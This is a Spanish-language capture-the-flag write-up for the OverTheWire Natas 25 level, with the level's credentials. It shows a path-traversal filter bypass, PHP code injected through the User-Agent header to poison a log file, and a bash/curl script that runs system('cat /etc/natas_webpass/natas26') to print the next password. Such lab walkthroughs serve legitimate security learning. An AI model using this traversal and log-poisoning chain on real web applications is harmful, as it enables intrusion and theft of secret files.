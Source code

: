 ```yaml
---
title: Natas-25
published: true
---
```


```
Url del reto: http://natas25.natas.labs.overthewire.org/index.php
login:natas25
 pass: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```

Se nos presenta el siguiente código:

```php
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>
```

Las funciones que vamos a tener en cuenta son:

```
function setLanguage()
function logRequest($message)
```

El primero que hice es intentar mediante ruta relativa llegar al fichero donde esta la pass que es en /etc/natas_webpass/natas26.
El problema es que cuando intentamos hacer una petición GET:

```
?lang=../../../../../etc/natas_webpass/natas26
```

Nos toparemos con el primer obstaculo de la función safeinclude()

```php
if(strstr($filename,"../")){
	logRequest("Directory traversal attempt! fixing request.");
	$filename=str_replace("../","",$filename);
}
```

Podemos saltarnos este filtro repitiendo la cadena ../

```
?lang=....//....//....//....//....//etc/natas_webpass/natas26
```

Y la función la dejará asi:

```
?lang=../../../../../etc/natas_webpass/natas26
```

Ahora nos encontramos con el siguiente obstáculo:

```php
if(strstr($filename,"natas_webpass")){
	logRequest("Illegal file access detected! Aborting!");
	exit(-1);
}
```
Si detecta la cadena natas_webpass, terminará el programa y no podremos acceder a la ruta deseada.
Me he peleado bastante intentando saltarme este filtro pero no lo conseguí. Intente:

```
escapar caracteres: natas_webpas\s
colocando espacios: natas_webpass%20
Añadiendo comodines: natas_webpas[a-z], natas_webpas?, /etc/natas*/natas26, /etc/*/natas26
Añadiendo codigos ascii: saltos de linea, null (%00)
```

Intenté entrar en diferentes archivos del sistema (logs, ficheros de configuración) para ver si habia alguna fuga de información.
Tambien intente acceder si habia alguna clave ssh en el directorio home /home/natas25/.ssh/id_rsa pero nada.

Decidí ver otra parte del código, la función listFiles no veia nada raro, asi que me centré en la función logRequest().

En esta función guarda logs de las sessiones. Asi que intente recopilar muchas cookies e ir insertanto querys para ver si en alguna cookie era de algún admin y poder ver alguna fuga de información pero tampoco conseguí nada.

Después de muchas vueltas no me estaba dando cuenta que cuando se accede a algun log. Que para ello hay que usar la ruta relativa:

```
?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_cookie.log
```

Se veian notificaciones de PHP:

```
Notice: Undefined variable: __GREETING in /var/www/natas/natas25/index.php on
line 80

Notice: Undefined variable: __MSG in /var/www/natas/natas25/index.php on line
81

Notice: Undefined variable: __FOOTER in /var/www/natas/natas25/index.php on
line 82
          
```

Asi que, pese a ser un fichero.log, esta ejecutando código PHP. Y viendo en la función logRequest() la siguiente linea:

```php
$log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
```

Viendo esto se me ocurrió algo. ¿Y si añadimos código PHP en este campo?:

```
user-agent: <?php phpinfo() ?>
```

Modifiqué desde el firefox la cabecera user-agent y funcionó

![](https://madmb.github.io/imgs/natas25-cap01.png)

Reenvie la petición pero esta vez con el código pertinente:

```
User-Agent: <?php system('cat /etc/natas_webpass/natas26')?>
```

Automatice todo el proceso mediante un script en bash:

```bash
#!/bin/bash

# /var/www/natas/natas25/logs/natas25_" . session_id() .".log"

# url principal
url_main='http://natas25.natas.labs.overthewire.org/index.php'

# Añadiremos al parametro User-Agent el codigo malicioso
payload="User-Agent: <?php system('cat /etc/natas_webpass/natas26')?>"

# hacemos una peticion para extraer la cookie
curl --cookie-jar cookie.txt -s -u natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c $url_main &>/dev/null
cookie=$(cat cookie.txt |tail -1| awk -F " " '{print $NF}')

# Esta consulta es para acceder al log de la cookie actual
query="?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_$cookie.log"

# Lanzamos un curl para que ejecute el codigo php $payload
curl --cookie "PHPSESSID=$cookie" --header "$payload" -s -u natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c $url_main${query} | html2text
```

El resultado es:

```
admin1@php:~$ bash natas25.bash 


****** natas25 ******
                                                       [One of: language/en/de]
[07.05.2022 16::02:59] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T "Directory traversal
attempt! fixing request."
Notice: Undefined variable: __GREETING in /var/www/natas/natas25/index.php on
line 80

Notice: Undefined variable: __MSG in /var/www/natas/natas25/index.php on line
81

Notice: Undefined variable: __FOOTER in /var/www/natas/natas25/index.php on
line 82
                                                                View_sourcecode
```

La pass para el siguiente nivel es:

```
natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
```

[Volver al archivo](archive)

